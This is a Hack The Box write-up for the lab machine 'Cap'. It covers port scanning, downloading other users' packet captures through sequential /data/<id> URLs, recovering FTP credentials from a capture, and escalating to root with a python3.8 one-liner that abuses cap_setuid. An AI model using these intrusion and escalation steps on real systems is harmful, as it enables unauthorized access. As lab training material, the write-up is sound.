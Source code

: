```yaml
---
clayout: ctf
title: Cap
date: 2025-03-12
image: /ctf/hack-the-box/machines/cap/info-card.png
type: Hack The Box

ctf:
    - name: Cap
      link: https://app.hackthebox.com/machines/351
      thumbnail: /ctf/hack-the-box/machines/cap/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/351
          thumbnail: /ctf/hack-the-box/machines/cap/pwned.png
---
```


## Enumeration

### Nmap Scan

We begin by running an Nmap scan to identify open ports and services on the target machine:

```bash
nmap -sC -sV -v -p- -oN cap.nmap 10.10.10.245
```

#### Scan Results:

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
```

From the results, we identified three open ports:

- **Port 21:** FTP (vsftpd 3.0.3)
- **Port 22:** SSH (OpenSSH 8.2p1)
- **Port 80:** HTTP (Gunicorn web server)

## Web Enumeration

### Exploring HTTP - Port 80

Visiting `http://10.10.10.245`, we see a **Security Dashboard**:

![Security Dashboard](/ctf/hack-the-box/machines/cap/security-dashboard.png)

One of the options, **Security Snapshot (5 Second PCAP + Analysis),** leads to a **Capture Analysis** page:

![Capture Analysis](/ctf/hack-the-box/machines/cap/capture-analysis.png)

This page allows us to download PCAP files. The URLs follow the pattern `/data/<id>`. By iterating over different values, we retrieve multiple PCAP files for analysis.

### Extracting Credentials from PCAP

Using Wireshark to analyze the PCAP files, we find FTP credentials in `/data/0`:

```plaintext
36   4.126500   192.168.196.1   192.168.196.16   FTP   69   Request: USER nathan
40   5.424998   192.168.196.1   192.168.196.16   FTP   78   Request: PASS ***************
```

We now have valid FTP credentials for `nathan`.

## Gaining Access

### FTP Login & User Flag

Using the extracted credentials, we log in to the FTP server:

```bash
ftp 10.10.10.245
Name (10.10.10.245:nathan): nathan
Password: ***************
```

We list the available files and find the user flag:

```bash
ftp> ls -al
-r--------    1 1001     1001           33 Mar 12 18:26 user.txt
ftp> get user.txt
```

Using the same credentials, we can log in via SSH:

```bash
ssh nathan@10.10.10.245
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```

## Privilege Escalation

### Checking Capabilities

Using `getcap`, we identify a privilege escalation vector:

```bash
getcap -r / 2>/dev/null
```

```plaintext
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The `cap_setuid` capability allows the Python binary to change its effective user ID, providing a path to escalate privileges.

### Exploiting Python Capabilities

We use the following command to elevate our privileges:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

```bash
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

We successfully escalate to root.
